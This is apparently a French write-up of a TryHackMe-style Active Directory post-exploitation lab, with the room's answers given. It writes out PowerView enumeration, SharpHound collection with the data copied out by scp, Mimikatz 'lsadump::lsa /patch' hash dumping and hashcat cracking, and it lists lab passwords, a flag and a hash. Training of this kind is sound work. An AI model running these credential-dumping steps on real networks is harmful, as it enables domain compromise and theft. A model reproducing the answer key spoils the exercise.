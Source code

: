 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1 avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

```
$ ssh Administrator@10.10.114.119
```

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps1
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Réponse : Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Réponse : Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Réponse : Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Réponse : Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Réponse : Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
Réponse : POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

##### Sur la machine Kali Linux :

Installer Neo4j :
```console
$ sudo apt-get update
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Neo4j est un système de gestion de base de données au code source libre basée sur les graphes. Il est utilisé par Bloodhound.<br/>
Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ sudo neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

##### Une fois sur la machine Windows :

Lancer le PowerView avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

Collecter un maximum de données à l'aide de SharpHound :
```console
Réponse : Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName all-data.zip
```
<p>
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics.png" />
</p>

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple :
```
$ scp Administrator@10.10.114.119:/C:/Users/Administrator/20210927121411_all-data.zip ~
```

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
Réponse : sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
Réponse : sqlservice, krbtgt
```

---

#### Mimikatz :

Mimikatz est un outil de post-exploitation qui permet de faire des dumps des mots de passe de la mémoire, mais aussi des hash, des codes PIN et des tickets pour le protocole d'identification réseau Kerberos.

Lancer Mimikatz :
```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

<p align="center">
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics_01.png"/>
</p>

Maintenant que nous avons les hachages, nous pouvons essayer de les casser. Commençons par le faire en utilisant hashcat et rockyou.txt :

```console
$ locate rockyou.txt
```

Récuperer les hachages dans un fichier hashes.txt et faites tourner hashcat pour trouver les équivalents :
```console
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

En cas d'erreur :

Il faut installer les librairies nécessaires au fonctionnement de hashcat supérieur à la version 3.3.x :
```console
$ apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
$ apt-get install pocl-opencl-icd
```

Quel est le mot de passe de la Machine1 ?
```console
Réponse : Password1
```

Quel est le hash du mot de passe de la Machine2 ?
```console
Réponse : c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : controller.local

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
